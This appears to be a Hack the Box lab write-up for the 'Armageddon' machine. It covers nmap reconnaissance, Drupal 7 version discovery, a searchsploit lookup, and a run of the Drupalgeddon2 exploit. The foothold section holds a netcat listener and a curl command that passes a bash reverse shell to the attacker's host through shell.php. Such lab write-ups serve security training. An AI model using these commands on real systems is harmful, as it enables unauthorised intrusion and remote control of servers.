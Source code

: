 # Hack the Box - Armageddon

# NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.233 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/15%OT=22%CT=1%CU=37173%PV=Y%DS=2%DC=I%G=Y%TM=6461351
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=I%
OS:TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW
OS:7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%
OS:W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CN
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.233 -oN services.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

---

## HTTP
  - Homepage
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cb5ace1e-fa12-4cc5-b837-4107afa14893)

  - Registering as a new user failed as e-mail authentication is broken broken.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4abc8d0c-1e80-479a-b0ca-3d6eaa55f28c)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56f3bf84-4cfa-42ea-b0de-db89db01746d)

---

## HTTP Response Header
```http
HTTP/1.1 200 OK
Date: Sat, 30 Sep 2023 11:35:57 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Length: 7440
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
```

---

## Drupal Version
- `changelog.txt`.
```shell
curl -s 10.10.10.233/CHANGELOG.txt | head
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9e732973-d6d1-4287-acdd-47f785645a1f)

---

## Search for Exploit
```shell
root@kali# searchsploit drupal 7.56
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e8217b76-c132-4084-8b46-a44a1c78af1a)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0592413d-3aca-457e-bab1-9404dc5c36e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf373420-7ea7-4e73-b86c-8bd1884c4b06)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```

## Initial Foothold
```shell
root@kali# ruby 44449.rb http://10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a3f60b5-c3ef-4d41-a291-f752776f758b)

Bash Shell
```shell
root@kali# rlwrap nc -nlvvp 443
```
```shell
root@kali# curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.10/443 0>&1" 'http://10.10.10.233/shell.php'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/868623ca-76ba-4fd4-bde1-6863c301137f)
